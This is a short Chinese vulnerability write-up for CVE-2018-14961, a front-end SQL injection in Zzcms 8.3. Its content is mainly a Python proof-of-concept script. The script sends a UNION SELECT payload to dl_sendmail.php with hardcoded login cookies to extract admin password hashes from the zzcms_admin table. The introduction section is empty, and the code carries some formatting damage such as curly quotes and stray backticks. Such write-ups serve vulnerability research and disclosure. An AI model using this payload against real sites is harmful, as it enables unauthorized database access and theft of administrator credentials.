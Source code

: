 # （CVE-2018-14961）Zzcms 8.3 前台sql注入

> 原文：[https://www.zhihuifly.com/t/topic/3314](https://www.zhihuifly.com/t/topic/3314)

# （CVE-2018-14961）Zzcms 8.3 前台sql注入

## 一、漏洞简介

## 二、漏洞影响

Zzcms 8.3

## 三、复现过程

```
#!/usr/bin/env python
#Author:Sublime
#coding:utf-8
import requests as req

url = “[http://0-sec.org:8080/dl/dl_sendmail.php](http://0-sec.org:8080/dl/dl_sendmail.php)”

cookies = {‘UserName’:‘test’,‘PassWord’:‘81dc9bdb52d04dc20036dbd8313ed055’}

data = { ‘sql’:‘select email from zzcms_dl where id=-1 union select pass from zzcms_admin #’} `q = req.post(url,data,cookies=cookies,allow_redirects=False)

print q.status_code

print q.content` 
```

测试结果为：

![image](img/8596803711a0012a3cd1aca4bbda0e81.png)

## 参考链接

> https://www.anquanke.com/post/id/156660